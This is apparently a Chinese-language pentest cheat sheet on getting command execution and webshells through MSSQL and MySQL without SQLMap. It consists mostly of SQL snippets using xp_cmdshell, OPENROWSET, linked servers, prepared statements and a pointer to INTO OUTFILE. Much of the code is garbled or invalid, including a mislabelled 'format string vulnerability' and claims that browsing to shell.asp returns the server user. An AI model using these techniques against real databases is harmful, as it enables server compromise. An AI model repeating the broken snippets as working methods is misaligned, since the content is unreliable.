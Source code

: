 
### 2. 不使用SQLMAP的OS-SHELL，各种数据库怎么写SHELL
[https://www.yuque.com/just0rg/gzlqo7/ui5wvo](https://www.yuque.com/just0rg/gzlqo7/ui5wvo)
#### 1. MSSQL WEBSHELL
```plsql
CREATE TABLE shell (cmd nvarchar(max))
go

INSERT INTO shell VALUES('whoami')
go

DECLARE @res NVARCHAR(MAX)
EXEC xp_cmdshell SELECT cmd FROM shell, @res output
SELECT @res

访问`http://xxx.com/shell.asp?id=1`,返回服务器用户名。


- 使用OPENROWSET读取远程文件:
SELECT * FROM OPENROWSET('SQLOLEDB','Server=ip;Trusted_Connection=yes;','EXEC master..xp_cmdshell ''command'' ')


- 使用LINKED SERVER执行远程命令:
EXEC ('xp_cmdshell ''whoami'' ') AT linkedservername  


- 使用格式化字符串(format string vulnerability)执行命令:
DECLARE @var VARCHAR(100)
SET @var = 'echo ' + CONVERT(VARCHAR(8000), HASHBYTES('MD5', '1'), 2) COLLATE SQL_Latin1_General_CP1_CI_AS
EXEC(@var)
```



#### 2. MySQL WEBSHELL
```plsql
CREATE TABLE `shell` ( `cmd` TEXT NOT NULL )

INSERT INTO `shell` VALUES('whoami');

SET @res = NULL; 
SELECT @res := `cmd` FROM `shell`;
SET @res = `\\\`\\\`\\\` + @res + `\\\`\\\`\\\`;
PREPARE x FROM @res; 
EXECUTE x;
DEALLOCATE PREPARE x;
SELECT @res;

访问`http://xxx.com/shell.php?id=1`,返回MySQL用户名。


- 使用USER变量执行命令:
SET @MYSQLUSER=USER();   
SET @res='';
SELECT @res:=@MYSQLUSER;
SET @cmd=CONCAT('whoami;');
PREPARE stmt FROM @cmd;
EXECUTE stmt;
SELECT @res;  


- 使用SELECT ... INTO OUTFILE写入WEBSHELL文件
```